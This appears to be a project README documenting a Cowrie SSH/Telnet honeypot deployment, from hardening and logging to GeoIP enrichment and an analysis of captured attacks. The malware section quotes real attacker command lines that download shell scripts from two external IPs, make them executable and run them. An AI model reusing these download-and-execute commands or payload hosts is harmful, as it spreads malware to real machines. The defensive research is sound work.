





# Cowrie SSH & Telnet Honeypot Deployment

## Introduction

In this project, I deployed **Cowrie**, a medium-interaction SSH and Telnet honeypot, on a Debian 13 VPS.

The objective is to expose simulated remote access services to the internet, collect authentication attempts and attacker activity, and analyze the telemetry generated during interactive sessions.

The deployment focuses on secure service isolation, controlled network exposure, and reliable event collection.

---

## Lab Architecture

|Layer|Component|
|---|---|
|**Operating System**|Debian 13 (Minimal)|
|**Honeypot**|Cowrie|
|**Python Environment**|Python virtual environment|
|**Service Management**|systemd|
|**Network Filtering**|UFW|
|**Outbound Protection**|nftables|
|**Log Format**|JSON|

### Exposed Services

|Service|Port|Purpose|
|---|---|---|
|Administrative SSH|TCP 22|Secure VPS administration|
|Cowrie SSH|TCP 2222|SSH honeypot|
|Cowrie Telnet|TCP 23|Telnet honeypot|

---

## Cowrie Installation

Cowrie was installed in a dedicated directory:

``` bash
/opt/cowrie
```

A separate Python virtual environment was created to isolate Cowrie and its dependencies from the system Python installation.

The honeypot runs under a dedicated, unprivileged Linux account:

```
User: cowrie
Group: cowrie
```

This separation prevents the honeypot service from running with root privileges.

---

## Service Configuration

Cowrie was configured as a systemd service to provide automatic startup and centralized service management.

The service runs under the dedicated `cowrie` account.


---

## SSH & Telnet Configuration

### SSH Honeypot

The SSH service listens on TCP port `2222`.

This allows the honeypot to expose an SSH endpoint without interfering with the administrative SSH service running on port `22`.

### Telnet Honeypot

Telnet support was enabled in the Cowrie configuration.

The listener was configured to use the standard Telnet port:

```
[telnet]
enabled = true
listen_endpoints = tcp:23:interface=0.0.0.0
```

### Binding to a Privileged Port

On Linux, ports below `1024` require elevated privileges or the `CAP_NET_BIND_SERVICE` capability.

Instead of running Cowrie as root, the required capability was assigned to its systemd service:

```
[Service]
AmbientCapabilities=CAP_NET_BIND_SERVICE
```

This allows the service to bind to TCP port `23` while retaining its unprivileged execution context.

---

## Network Security Configuration

### UFW Firewall

UFW was configured with a default-deny incoming policy and an allow-outgoing policy.

``` bash
sudo ufw default deny incoming
sudo ufw default allow outgoing
```

Only the required TCP ports were allowed:

``` bash
sudo ufw allow 22/tcp
sudo ufw allow 23/tcp
sudo ufw allow 2222/tcp
```


The rules apply to both IPv4 and IPv6.

### Outbound Traffic Protection

An additional nftables rule was implemented to restrict outbound connections initiated by the Cowrie service account.

The rule blocks new outbound connections associated with the Cowrie UID while allowing responses belonging to established incoming connections.

This provides an additional layer of containment against potential abuse of the simulated shell.

---

## Service Validation

The active listening sockets were verified using:

``` bash
sudo ss -lntp
```

The expected listeners were confirmed:

```
0.0.0.0:23
0.0.0.0:2222
```

External connectivity was tested from a Windows workstation using PowerShell:

``` powershell
Test-NetConnection <VPS_IP> -Port 23
Test-NetConnection <VPS_IP> -Port 2222
```

The Telnet connectivity test returned:

```
TcpTestSucceeded : True
```

This confirmed that the Telnet service was reachable externally.

---


## Event Logging

Cowrie stores generated events in JSON format.

The primary log file is located at:

``` bash
/opt/cowrie/var/log/cowrie/cowrie.json
```

The log contains structured information about honeypot activity, including:

- Incoming connections and session metadata.
    
- Authentication attempts and successful logins.
    
- Commands entered during interactive sessions.
    
- Session termination events.
    

### Live Log Monitoring

The log can be monitored in real time using:

``` bash
sudo tail -f /opt/cowrie/var/log/cowrie/cowrie.json
```

For structured event inspection, `jq` can be used:

``` bash
sudo jq -c 'select(.eventid=="cowrie.login.success")' \
/opt/cowrie/var/log/cowrie/cowrie.json
```

---

## Telnet Session Validation

A test connection was established using PuTTY in Telnet mode.

A simulated login session was successfully initiated, and several commands were entered:

``` bash
pwd
uname -a
whoami
exit
```


Cowrie recorded the corresponding authentication, command input, and session termination events.

The generated events included:

|Event ID|Description|
|---|---|
|`cowrie.session.connect`|New session established|
|`cowrie.login.success`|Authentication accepted by the honeypot|
|`cowrie.command.input`|Command entered during the session|
|`cowrie.session.closed`|Session terminated|

The session was successfully captured in the JSON event log.

---

## Initial Telnet Exposure – 18 November 2026

After exposing the Telnet honeypot on TCP port `23` to the public internet, I collected and analyzed the activity recorded by Cowrie on 18 November 2026.

The analysis focused on incoming connections, authentication attempts, command execution patterns, and potential malware delivery attempts.

### Connection Statistics

During the observation period, Cowrie recorded **176 Telnet connections from 31 unique source IP addresses**.

|Metric|Value|
|---|---|
|Total Telnet connections|176|
|Unique source IP addresses|31|
|Successful authentication events|72|
|Failed authentication events|12|
|Recorded file download failures|5|
|Successful file download events|0|

### Observed Attack Patterns

Analysis of the recorded command inputs revealed several recurring activity patterns:

- **BusyBox / embedded Linux activity:** Commands such as `/bin/busybox HISILICON` and attempts to access `/proc/self/exe` appeared repeatedly across multiple sessions.
    
- **Automated file creation attempts:** Repeated command sequences attempted to create files named `.f` in directories such as `/var`, `/tmp`, `/dev/shm`, `/root`, and `/usr`, followed by permission changes and execution attempts.
    
- **Shell access attempts:** Commands including `enable`, `system`, `sh`, `shell`, and `ping; sh` were observed during interactive sessions.
    
- **Payload download attempts:** Some sessions attempted to retrieve shell scripts from external HTTP servers.



### Malware Delivery Attempts

Five failed file download events were recorded during the analysis period.

Two distinct payload URLs were identified:

|Source IP|Requested File|
|---|---|
|`37.221.79.128`|`http://37.221.79.128/mentality.sh`|
|`160.119.66.206`|`http://160.119.66.206/bins/kla.sh`|

``` bash
2026-11-18T19:55:20.168711Z     37.221.79.128   6f771cef2078    cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.221.79.128/mentality.sh; curl -O http://37.221.79.128/mentality.sh; chmod 777 mentality.sh; sh mentality.sh
2026-11-18T21:25:20.869677Z     160.119.66.206  ac2ec4dd5ce5    cd /tmp 2>/dev/null || cd /var 2>/dev/null || cd /dev/shm 2>/dev/null || cd /run 2>/dev/null || cd /root 2>/dev/null || cd /;rm -f kla.sh;wget -O kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null||busybox wget -O kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null||curl -sLo kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null;chmod 777 kla.sh;sh kla.sh telnet&
2026-11-18T21:25:21.073757Z     160.119.66.206  52475a18ac18    cd /tmp 2>/dev/null || cd /var 2>/dev/null || cd /dev/shm 2>/dev/null || cd /run 2>/dev/null || cd /root 2>/dev/null || cd /;rm -f kla.sh;wget -O kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null||busybox wget -O kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null||curl -sLo kla.sh http://160.119.66.206/bins/kla.sh 2>/dev/null;chmod 777 kla.sh;sh kla.sh telnet&

```

The associated commands attempted to download, change permissions, and execute the retrieved scripts.

Cowrie recorded all five download events as `cowrie.session.file_download.failed`. No successful file download events were recorded.


---

## GeoIP & ASN Enrichment

To enrich the collected telemetry with network and geographical context, **MaxMind GeoLite2** databases were integrated into the analysis workflow.

### GeoLite2 Configuration

A free MaxMind GeoLite account was used to obtain the following databases:

- `GeoLite2-City` – IP geolocation data.
- `GeoLite2-ASN` – Autonomous System Number and network organization information.

The GeoIP Update utility and supporting tools were installed:

```bash
sudo apt install geoipupdate mmdb-bin python3-maxminddb
```

The MaxMind configuration was stored in `/etc/GeoIP.conf`:

```
AccountID YOUR_ACCOUNT_ID
LicenseKey YOUR_LICENSE_KEY
EditionIDs GeoLite2-City GeoLite2-ASN
DatabaseDirectory /usr/share/GeoIP
```


### IP Enrichment

A Python-based enrichment script was developed using the `maxminddb` library to retrieve geolocation and ASN information for source IP addresses recorded by Cowrie.

The script processes connection events and generates CSV reports containing source IP addresses, connection counts, countries, ASNs, and network organization names.

The analysis was performed separately for both exposed services.

**Telnet – TCP port 23:**

```bash
sudo python3 geoip_enrichment.py \
  --input /opt/cowrie/var/log/cowrie/cowrie.json.2026-11-18 \
  --protocol telnet \
  --port 23
```



**SSH – TCP port 2222:**

```bash
sudo python3 geoip_enrichment.py \
  --input /opt/cowrie/var/log/cowrie/cowrie.json.2026-11-18 \
  --protocol ssh \
  --port 2222
```



The script generates the following reports for each protocol:

- `*_geoip.csv` – enriched source IP data.
- `*_by_country.csv` – connection statistics grouped by country.
- `*_by_asn.csv` – connection statistics grouped by ASN and network organization.

GeoIP information is approximate and should not be treated as proof of an attacker's physical location. ASN data identifies the network organization associated with an IP address, not the individual responsible for the activity.

---

## Future Development

Planned extensions:

- HTTP/HTTPS honeypot.
    
- FTP honeypot.
    
- ICS/OT honeypot (Modbus TCP).
    
- Python-based Cowrie log analyzer.
    
- Threat Intelligence integration.
    
- Custom detection rules using Sigma.
    
- YARA-based file analysis.
    
- Centralized log management and dashboards.
